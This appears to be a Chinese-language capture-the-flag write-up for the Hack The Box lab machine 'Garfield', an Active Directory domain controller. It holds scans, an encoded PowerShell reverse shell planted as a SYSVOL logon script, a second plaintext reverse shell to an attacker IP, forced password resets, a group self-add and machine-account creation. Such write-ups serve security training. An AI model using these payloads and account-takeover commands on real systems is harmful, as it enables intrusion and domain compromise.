# HTB Season 10 - Garfield

## 信息收集

### 初始凭证

` j.arbuckle / Th1sD4mnC4t!@1978`

### 端口扫描

```bash
nmap -p- --min-rate 5000 -T4 10.129.76.171
```



```bash
nmap -p 53,88,135,139,389,445,464,593,636,2179,3268,3269,3389,5985,9389,49667,49670,49671,49673,49674,49900 -sVC -O -T4 --min-rate 5000 10.129.76.171
```

```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-04 23:20 -0400
Nmap scan report for 10.129.76.171
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-05 11:21:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Not valid before: 2026-02-13T01:10:36
|_Not valid after:  2026-08-15T01:10:36
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-05T11:22:00+00:00
|_ssl-date: 2026-04-05T11:22:40+00:00; +8h00m03s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49900/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (96%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (96%), Microsoft Windows 10 1903 - 21H1 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-05T11:22:00
|_  start_date: N/A
|_clock-skew: mean: 8h00m02s, deviation: 0s, median: 8h00m02s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.06 seconds
```

### NXC

```bash
nxc smb 10.129.76.171 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978'
```

未开启SMBv1服务,因此无法利用MS17-010漏洞



### BloodHound

```bash
bloodhound-python -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -d 'garfield.htb' -c All --zip --dns-tcp -ns 10.129.76.171
```

- **分析bloodhound结果**
    - `L.WILSON_ADM` 可以强行修改 `RODC01` 的密码
    - 
    - `L.WILSON` 可以强行修改 `L.WILSON_ADM` 的密码
    - 
    - `RODC01` 可以强行修改 `KRBTGT_8545` 的密码
    - 
攻击路径为 `L.WILSON` -> `L.WILSON_ADM` -> `RODC01` -> `KRBTGT_8545`

## 域渗透


### L.WILSON

```bash
# attack
nc -lvnp 4444
```

#### SYSVOL\garfield.htb\scripts 权限错误配置

SMB上传printerDetect.bat

```powershell
# base64编码
 powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAyACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```



#### j.arbuckle 权限错误配置

```bash
bloodyAD -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --host 10.129.76.171 set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v printerDetect.bat
```





### 内网探测

上线cs并使用fscan进行内网探测



`192.168.100.1`->`DC01`
`192.168.100.2`->`RODC01`

```bash
   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.1
start infoscan
(icmp) Target 192.168.100.2   is alive
[*] Icmp alive hosts len is: 1
192.168.100.2:464 open
192.168.100.2:445 open
192.168.100.2:88 open
192.168.100.2:53 open
192.168.100.2:389 open
192.168.100.2:593 open
192.168.100.2:139 open
192.168.100.2:135 open
192.168.100.2:636 open
192.168.100.2:3269 open
192.168.100.2:3268 open
192.168.100.2:3389 open
192.168.100.2:5985 open
192.168.100.2:9389 open
192.168.100.2:49671 open
192.168.100.2:49666 open
192.168.100.2:49668 open
192.168.100.2:49675 open
192.168.100.2:49672 open
192.168.100.2:49733 open
192.168.100.2:49745 open
```

### L.WILSON_ADM

L.WILSON 可以强行修改 `L.WILSON_ADM` 的密码

```powershell
Set-ADAccountPassword -Identity l.wilson_adm -NewPassword (ConvertTo-SecureString 'Zhaha123!' -AsPlainText -Force) -Reset
```



#### evil-winrm

```bash
evil-winrm -i dc01.garfield.htb -u l.wilson_adm -p 'Zhaha123!'
```

#### powershell远程命令

```powershell
# attack
nc -lvnp 4445

# l.wilson
$s=ConvertTo-SecureString 'Zhaha123!' -AsPlainText -Force;$c=New-Object System.Management.Automation.PSCredential ('garfield.htb\l.wilson_adm',$s);Invoke-Command -Computer 127.0.0.1 -Cred $c -Script {$t=New-Object System.Net.Sockets.TCPClient('10.10.16.12',4445);$s=$t.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$sbt=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$t.Close()}
```



#### cs自上线



### RODC

l.wilson_adm 可以`addself`到`RODC Administrators`组内



```bash
bloodyAD --host garfield.htb -u l.wilson_adm -p 'Zhaha123!' add groupMember "RODC Administrators" l.wilson_adm
```

#### 创建可控机器用户 `JJ`

```bash
impacket-addcomputer -computer-name 'JJ$' -computer-pass 'Zhaha123!' -dc-ip 10.129.76.171 garfield.htb/l.wilson_adm:'Zhaha123!'
```



#### 获取JJ$的`sid`

```bash
bloodyAD --host DC01.garfield.htb -u l.wilson_adm -p 'Zhaha123!' get object JJ$
```

JJ$的`sid`为`S-1-5-21-2502726253-3859040611-225969357-10601`

```bash
distinguishedName: CN=JJ,CN=Computers,DC=garfield,DC=htb
accountExpires: 9999-12-31 23:59:59.999999+00:00
badPasswordTime: 1601-01-01 00:00:00+00:00
badPwdCount: 0
cn: JJ
codePage: 0
countryCode: 0
dSCorePropagationData: 1601-01-01 00:00:00+00:00
instanceType: 4
isCriticalSystemObject: False
lastLogoff: 1601-01-01 00:00:00+00:00
lastLogon: 1601-01-01 00:00:00+00:00
localPolicyFlags: 0
logonCount: 0
mS-DS-CreatorSID: S-1-5-21-2502726253-3859040611-225969357-3107
nTSecurityDescriptor: O:S-1-5-21-2502726253-3859040611-225969357-512G:S-1-5-21-2502726253-3859040611-225969357-513D:(OA;;WP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;WP;bf967950-0de6-11d0-a285-00aa003049e2;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;WP;bf967953-0de6-11d0-a285-00aa003049e2;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;WP;3e0abfd0-126a-11d0-a060-00aa006c33ed;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;SW;72e39547-7b18-11d1-adef-00c04fd8d5cd;;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;SW;f3a64788-5306-11d1-a9c5-0000f80367c1;;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;WP;4c164200-20c0-11d0-a768-00aa006e0529;;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;;0x30;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2502726253-3859040611-225969357-517)(OA;;0x3;bf967aa8-0de6-11d0-a285-00aa003049e2;;S-1-5-32-550)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;S-1-1-0)(OA;;SW;72e39547-7b18-11d1-adef-00c04fd8d5cd;;S-1-5-10)(OA;;SW;f3a64788-5306-11d1-a9c5-0000f80367c1;;S-1-5-10)(OA;;0x30;77b5b886-944a-11d1-aebd-0000f80367c1;;S-1-5-10)(A;;0x20194;;;S-1-5-21-2502726253-3859040611-225969357-3107)(A;;0xf01ff;;;S-1-5-21-2502726253-3859040611-225969357-512)(A;;0xf01ff;;;S-1-5-32-548)(A;;0x3;;;S-1-5-10)(A;;0x20094;;;S-1-5-11)(A;;0xf01ff;;;S-1-5-18)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIID;0x30;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2502726253-3859040611-225969357-526)(OA;CIID;0x30;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2502726253-3859040611-225969357-527)(OA;ID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;;S-1-5-21-2502726253-3859040611-225969357-3107)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-3-0)(OA;CIID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-10)(OA;CIID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-9)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-9)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-9)(OA;CIID;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-10)(OA;CIIOID;0x20094;;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;0x20094;;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;0x20094;;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;OICIID;0x30;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;S-1-5-10)(OA;CIID;0x130;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;S-1-5-10)(A;CIID;0xf01ff;;;S-1-5-21-2502726253-3859040611-225969357-519)(A;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
name: JJ
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=garfield,DC=htb
objectClass: top; person; organizationalPerson; user; computer
objectGUID: 280aaabd-fc02-42d4-b06d-88602383ee4f
objectSid: S-1-5-21-2502726253-3859040611-225969357-10601
primaryGroupID: 515
pwdLastSet: 1601-01-01 00:00:00+00:00
sAMAccountName: JJ$
sAMAccountType: 805306369
uSNChanged: 155940
uSNCreated: 155936
